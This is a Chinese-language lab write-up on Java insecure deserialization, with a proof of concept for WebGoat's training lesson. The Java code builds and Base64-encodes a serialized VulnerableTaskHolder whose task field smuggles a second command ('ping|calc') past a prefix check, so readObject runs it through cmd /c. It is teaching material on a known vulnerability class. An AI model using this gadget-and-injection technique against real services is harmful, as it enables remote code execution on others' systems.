


# 漏洞成因

暴露或间接暴露反序列化 API ，导致用户可以操作传入数据，攻击者可以精心构造反序列化对象并执行恶意代码

++==这里需要注意：只有实现了Serializable接口的类的对象才可以被序列化，Serializable 接口是启用其序列化功能的接口，实现 java.io.Serializable 接口的类才是可序列化的，没有实现此接口的类将不能使它们的任一状态被序列化或逆序列化。==++

# poc(WebGoat Insecure Deserialization)

### 目录结构



### 代码

- Main.java

```java
package com.hanhancat.deserialization;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.util.Base64;

import org.dummy.insecure.framework.VulnerableTaskHolder;

public class Main{
	public static void main(String args[]) {
		String exp = serialization("exp", "ping|calc");
		
		System.out.printf(exp);
		
		deserialization(exp);
	}
	
	//序列化
	private static String serialization(String taskName,String taskAction) {
		VulnerableTaskHolder go = new VulnerableTaskHolder(taskName, taskAction);
		ByteArrayOutputStream bos = new ByteArrayOutputStream();
		

		try {
			ObjectOutputStream oos = new ObjectOutputStream(bos);
			oos.writeObject(go);
			oos.flush();
		} catch (IOException e) {
			// TODO Auto-generated catch block
			e.printStackTrace();
		}
		
		byte[] exploit = bos.toByteArray();
		String str = Base64.getEncoder().encodeToString(exploit);//base64加密
		return str;
	}
	
	//反序列化
	private static void deserialization(String exp) {
		byte[] exploit = Base64.getDecoder().decode(exp);//先base64解密
		
		ByteArrayInputStream bis = new ByteArrayInputStream(exploit);
		ObjectInputStream ois;
		try {
			ois = new ObjectInputStream(bis);
			ois.readObject();
		} catch (IOException e) {
			// TODO Auto-generated catch block
			e.printStackTrace();
		} catch (ClassNotFoundException e) {
			// TODO Auto-generated catch block
			e.printStackTrace();
		}
	}
}

```

- VulnerableTaskHolder

```java
package org.dummy.insecure.framework;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.lang.System.Logger;
import java.time.LocalDateTime;

public class VulnerableTaskHolder implements Serializable {
	  private static final long serialVersionUID = 2L;
	  private String taskName;
	  
	  private String taskAction;
	  
	  private LocalDateTime requestedExecutionTime;
	  
	  public VulnerableTaskHolder(String taskName, String taskAction) {
		super();
	    this.taskName = taskName;
	    this.taskAction = taskAction;
	    this.requestedExecutionTime = LocalDateTime.now();
	  }
	  
	  public String toString() {
	    return "VulnerableTaskHolder [taskName=" + this.taskName + ", taskAction=" + this.taskAction + ", requestedExecutionTime=" + this.requestedExecutionTime + "]";
	  }
	  
	  private void readObject(ObjectInputStream stream) throws Exception {//存在漏洞的readObject
	    stream.defaultReadObject();
	    if (this.requestedExecutionTime != null && (this.requestedExecutionTime
	      .isBefore(LocalDateTime.now().minusMinutes(10L)) || this.requestedExecutionTime
	      .isAfter(LocalDateTime.now()))) {
	      
	      throw new IllegalArgumentException("outdated");
	    } 
	    if ((this.taskAction.startsWith("sleep") || this.taskAction.startsWith("ping")) && this.taskAction
	      .length() < 22) {//通过管道绕过,eg: ping|calc
	      
	      try {
	    	String[] cmd = {"cmd","/c",this.taskAction};
	        Process p = Runtime.getRuntime().exec(cmd);
	        BufferedReader in = new BufferedReader(new InputStreamReader(p.getInputStream()));
	        String line = null;
	        while ((line = in.readLine()) != null) {
	        	
	        }
	          
	      } catch (IOException e) {
	        ;
	      } 
	    } 
	  }
	}

```

### 运行结果



# 参考质料
https://paper.seebug.org/312/